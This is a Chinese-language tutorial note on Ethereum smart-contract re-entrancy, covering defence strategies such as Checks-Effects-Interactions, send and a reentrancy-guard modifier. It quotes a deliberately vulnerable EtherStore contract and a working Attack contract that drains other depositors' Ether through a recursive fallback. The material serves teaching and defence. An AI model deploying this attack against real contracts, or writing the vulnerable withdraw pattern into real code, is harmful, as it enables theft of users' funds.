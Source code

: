 # 合约安全-重入攻击

## 前置知识

重入漏洞相信大家都有所耳闻了，那么什么是重入漏洞呢？

以太坊智能合约的特点之一是合约之间可以进行相互间的外部调用。同时，以太坊的转账不仅仅局限于外部账户，合约账户同样可以拥有以太并进行转账等操作，且合约在接收以太的时候会触发 fallback 函数执行相应的逻辑，这是一种隐藏的外部调用。

我们先给重入漏洞下个定义：可以认为合约中所有的外部调用都是不安全的，都有可能存在重入漏洞。例如：如果外部调用的目标是一个攻击者可以控制的恶意的合约，那么当被攻击的合约在调用恶意合约的时候攻击者可以执行恶意的逻辑然后再重新进入到被攻击合约的内部，通过这样的方式来发起一笔非预期的外部调用，从而影响被攻击合约正常的执行逻辑。

## **漏洞分析**

本质是通过递归调用提取函数，知道把目标合约的余额全部提出

 withdraw 函数中的转账操作有一个外部调用（msg.sender.call{value: bal}）

需要先存一点钱进去，因为提取函数：require(bal > 0);

递归调用fallback

每次循环一次都需要gas费

写代码时需要遵循先判断，后写入变量在进行外部调用的编码规范（Checks-Effects-Interactions）；

## 防御原则

### 控制合约变量

在调用外部合约之前，先修改合约变量

Ensure all state changes happen before calling external contracts

### 使用函数修改器

使用函数修改器枷锁 

Use function modifiers that prevent re-entrancy

## 防御策略

### 策略一：使用send

使用send转账，因为send转账设置了2300的gas限制

` bool success  = payable(msg.sender).send(value)`

`require(success,"Falied send")`

但是：由于设置2300的gas限制，能干的事比较少，2300的限制只能限制在以太网主网EVM的设置，比较死板

### 策略二：使用modifier

使用modifier

    bool internal locked;
    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }

### 策略三：



## 代码示例：

https://solidity-by-example.org/hacks/re-entrancy/

```
Re-Entrancy
Vulnerability
Let's say that contract A calls contract B.

Reentracy exploit allows B to call back into A before A finishes execution.


// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
EtherStore is a contract where you can deposit and withdraw ETH.
This contract is vulnerable to re-entrancy attack.
Let's see why.

1. Deploy EtherStore
2. Deposit 1 Ether each from Account 1 (Alice) and Account 2 (Bob) into EtherStore
3. Deploy Attack with address of EtherStore
4. Call Attack.attack sending 1 ether (using Account 3 (Eve)).
   You will get 3 Ethers back (2 Ether stolen from Alice and Bob,
   plus 1 Ether sent from this contract).

What happened?
Attack was able to call EtherStore.withdraw multiple times before
EtherStore.withdraw finished executing.

Here is how the functions were called
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
Preventative Techniques
Ensure all state changes happen before calling external contracts
Use function modifiers that prevent re-entrancy
Here is a example of a re-entracy guard


// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```


